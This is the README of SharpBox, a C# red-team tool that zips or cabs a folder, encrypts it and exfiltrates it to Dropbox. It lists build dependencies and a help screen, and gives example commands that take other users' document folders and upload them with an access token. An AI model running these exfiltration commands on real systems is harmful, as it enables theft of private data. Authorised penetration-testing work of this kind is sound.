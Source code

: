 # SharpBox
SharpBox is a C# tool for compressing, encrypting, and exfiltrating data to DropBox using the DropBox API. 

## Compiling
Target Framework: NET3.5

The libraries added via NuGet for this project were:

**-CommandLineParser.1.9.71**

**-Costura.Fody.1.6.2**

**-DotNetZip.1.11.0**

**-Fody.2.1.2**

**-MSFTCompressionCab.1.0.0**

## Usage
Log into your DropBox account and head over to the [DropBox developer API explorer](https://dropbox.github.io/dropbox-api-v2-explorer/#auth_token/from_oauth1) page and get an oauth access token by clicking "Get Token".
These access tokens do not expire, but you can revoke them.  So I would recommend revoking tokens after being used on engagments.

Example:

```
SharpBox.exe -f "C:\Users\JasonF\Documents\management-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE"

SharpBox.exe -f "C:\Users\Julian\Documents\rip-docs" -t "DROPBOX-OATH-ACCESS-TOKEN-HERE" -c "Cab"
```

SharpBox can Cab or Zip a folder of items.  Zip is the default compression method.  Cabbing tends to compress into smaller files than zip, but has a maximum limit of 2GB.  The compressed file is then encrypted with a randomly generated password and uploaded to dropbox.  The password is output to the console.  Copy the password and use with the "password" argument when decrypting. 

```
SharpBox 1.0.0.0
Copyright c  2018

  -f, --path                   Required. path to the folder you wish to
                               compress the contents of

  -o, --OutFile                Name of the compressed file

  -t, --dbxToken               Dropbox Access Token

  -h, --dbxPath                (Default: /test/data) path to dbx folder

  -c, --compression            (Default: Zip) this option lets you choose to
                               zip or cab the folder

  -d, --decrypt                (Default: False) Choose this to decrypt a zip or
                               cabbed file previously encrypted by this tool.
                               Requires original password argument.

  -p, --decryption-password    Password to decrypt a zipped or cabbed file.

  --help                       Display this help screen.
  ```
  
  
  Once the compressed/encrypted file is downloaded from DropBox, you can use this tool to decrypt it as well. 
  
  Example: 
  
  ```
  SharpBox.exe -f "C:\Users\evilDude\Desktop\data" -o "decrypted-data.zip" -p "RandomlyGeneratedPassword" -d
  ```
  
  
